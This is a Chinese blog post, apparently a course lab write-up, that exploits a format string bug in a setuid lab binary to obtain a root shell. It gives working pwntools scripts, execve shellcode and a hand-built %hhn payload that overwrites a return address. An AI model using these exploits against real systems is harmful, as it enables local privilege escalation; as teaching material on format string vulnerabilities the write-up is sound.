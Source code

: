 ```yaml
---
layout:     post   				    
title:      【安全攻防综合实验7】格式化字符串		
subtitle:   
date:       2021-10-27 				
author:     慕念 						
header-img: img/attack.jpg 	
catalog: true 						
tags:								
    - 安全攻防综合实验
---
```


## 【实验目的】

- 本实验所用虚拟机上有一个具有格式化字符串漏洞的可执行程序`fmt_str`，具有’s’属性。 
- 要求在linux上编程，并利用相关调试工具，编写出一个利用该漏洞程序的工具（exploit），获得带有root权限的shell。



## 【实验步骤】

### 一、基础题

#### 1、找到格式化字符串的漏洞。

![image-20211025204519021](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031944624.png)

了解到`fmtstr_payload`是`pwntools`中的工具，可以用来简化对格式化字符串漏洞的构造工作，所以攻击思路也是利用该函数写exp。

> `fmtstr_payload(offset, writes, numbwritten=0, write_size='byte')`
> 第一个参数表示格式化字符串的偏移；
> 第二个参数表示需要利用`%n`写入的数据，采用字典形式。比如说：要将`printf@GOT`改为`system`函数地址，可以写成{`printf@GOT`: `systemAddress`}；
> 第三个参数表示已经输出的字符个数，默认为0；
> 第四个参数表示写入方式，是按字节（byte）、按双字节（short）还是按四字节（int），对应着`hhn`、`hn`和`n`，默认值是byte。
> `fmtstr_payload()`函数返回的就是payload

#### 2、确定偏移。

写脚本通过循环暴力求偏移，即每次增加一个`%p`，然后用正则化表达式去匹配定位字符串是否出现，以此来求得offset。

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')

def exec_fmt(pad):
    p = process(['./fmt_str', pad])
    return p.recv()

fmt = FmtStr(exec_fmt)
print("offset ===> ", fmt.offset)
```

![image-20211025161112761](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031945826.png)

找到输入字符串到栈顶指针的偏移为4，由此确定了`fmtstr_payload()`的第一个参数为4。

#### 3、确定shellcode的地址和ret的地址。

由于`text[]`的地址会随着输入字符的数量发生变化，但是这时候还不知道shellcode和ret的地址，先随便写个地址看回显的Address of text。

其中构造payload的时候，要注意把`fmtstr_payload(4, {0x12345678: 0x12345678})`放在前面，如果把shellcode放在前面会影响对地址的写。

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')

# 20bytes
shellcode = b"\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
payload = fmtstr_payload(4, {0x12345678: 0x12345678}) + shellcode

p = process(["./fmt_str", payload])
p.recv()
p.interactive()
```

![image-20211025205212399](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031945298.png)

目前已经知道了`text[]`的地址，还需要知道ret的地址相较`text[]`的偏移，可以通过gdb查看：

![image-20211025210028814](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031945352.png)

![image-20211025210146381](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031945553.png)

可以看到ret的地址相较`text[]`的偏移是`0xffffd0fc-0xffffccf0=0x40c`

然后再写脚本，通过coredump确定shellcode的地址：

![image-20211025210805838](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031945491.png)

所以shellcode的地址相较`text[]`的偏移是`0xffffd28c-0xffffd250=0x3c`

#### 4、根据获得的信息写exp脚本。

##### ①使用`fmtstr_payload()`

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')

# 20bytes
shellcode = b"\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
# Address of text:0xffffd250
text_addr = 0xffffd250
shell_addr = text_addr + 0x3c
ret_addr = text_addr + 0x40c
payload = fmtstr_payload(4, {ret_addr: shell_addr}) + shellcode

p = process(["./fmt_str", payload])
p.recv()
p.interactive()
```

运行截图：

![image-20211025203410795](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031945618.png)



##### ②自己构造payload

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')

# 20bytes
shellcode = b"\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
# Address of text:0xffffd250
text_addr = 0xffffd250
shell_addr = text_addr + 0x3c  # 0xffffd28c
ret_addr = text_addr + 0x40c  # 0xffffd65c

# 要把0xffffd65c替换成0xffffd28c：
# 因为\x8c\xd2\xff\xff地址本身就是从小到大，所以地址也是按照\x5c……\x5d……\x5e……\x5f……排序
# 为了方便凑数字，把地址放在后面（地址放的位置无所谓，只要偏移计算正确就可以）
# 140=0x8c
# 140+70=0xd2
# 0xd2+45=0xff
# 0xff+0=0xff
# %15$hhn是因为输入的偏移是4，因为之后还有%140x、%70x、%45、a、a、a和四个地址（aaa用于4字节地址对齐），所以前面的偏移变成了4+10=14，所以是%15$hhn
# 采用精准的%hhn，一次仅写入一个字节，不会影响相邻数据（不用绕卷法）

fmtstr = b"%140x%15$hhn%70x%16$hhn%45x%17$hhn%18$hhnaaa\x5c\xd6\xff\xff\x5d\xd6\xff\xff\x5e\xd6\xff\xff\x5f\xd6\xff\xff"
payload = fmtstr+shellcode

p = process(["./fmt_str", payload])
p.recv()
p.interactive()
```

运行截图：

![image-20211027105926065](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031945652.png)



### 二、一些思考

`printf()`是学c的时候最开始接触到的函数，但是存在很大的漏洞，经过恶意构造后轻则使得程序崩溃，只要输入一串 `%s `，当遇到数字对应的内容不存在，或者保护地址时，就会使得程序崩溃；重则可泄露任意地址的内存和覆盖任意地址内存。所以在用到`printf()`等一系列格式化字符串的函数时，都要注意指定转换指示符，比如`%d`，`%c`等。

（在自己构造payload的时候，构造这么一长串还是很痛苦的，`fmtstr_payload()`真香。）

